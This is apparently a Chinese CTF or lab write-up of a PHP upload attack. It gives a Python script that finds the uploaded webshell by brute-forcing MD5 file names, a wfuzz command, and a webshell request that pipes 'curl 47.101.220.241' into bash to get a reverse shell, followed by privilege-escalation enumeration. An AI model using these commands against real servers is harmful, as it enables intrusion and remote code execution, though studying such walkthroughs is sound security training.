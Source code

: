 ![](http://ww1.sinaimg.cn/large/de75fd55gy1g1xol2qxk6j20cw05874g.jpg)

再写一个脚本

```python
import requests, hashlib

for i in range(101):
    url = "http://192.168.0.106:8000/uploads/"
    key = '2.php' + str(i)
    m5 = hashlib.md5(key.encode()).hexdigest()
    url += m5 + '.php'
    re = requests.get(url)
    print(re.status_code)
    if re.status_code == 200:
        print(url, 23333333333333333333333333333333333333333333333333)
        break
```

或者按这种 `fuzz` 的办法，也可以用 `Burp` 中的 `instruder` ，不再赘述。

```
wfuzz -w test.txt --hc 404 http://localhost:8000/uploads/FUZZ.php
```

### 反弹 shell

直接弹 shell，成功。也可以执行 `nc` 命令把 bash 反弹出来。

```
http://192.168.0.106:8000/uploads/9e2b0f7dd8852a2987e7ade6fb2e948f.php
?1=system("curl 47.101.220.241|bash");
```

### 开始提权

```shell
# 查看内核信息
uname -a
Linux 1afdd1f6b82c 4.15.0-29-generic #31~16.04.1-Ubuntu SMP Wed Jul 18 08:54:04 UTC 2018 x86_64 GNU/Linux
# 比较新，有相应的 cve 可以提权，然而要等一个多小时

# 查看以 root 运行的服务
www-data@1afdd1f6b82c:/var/www/html$ ps -aux | grep root
root   1  0.0  1.6 388000 16496 ?    Ss   09:12   0:00 apache2 -DFOREGROUND
root   77  0.0  0.2  18000  2560 ?   Ss   09:12   0:00 /bin/bash /etc/init.d/delete.sh
root       370  0.0  0.0   4200   676 ?        S    12:52   0:00 sleep 300
www-data   390  0.0  0.0  11116   944 ?        S    12:57   0:00 grep root

# 哈哈，还有个定时删除的任务
#!/bin/bash
while [ 1 ]
do
    rm -rf /var/www/html/uploads/*.php
    sleep 300
done

# uid
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/tail
/usr/bin/chfn
/bin/mount
```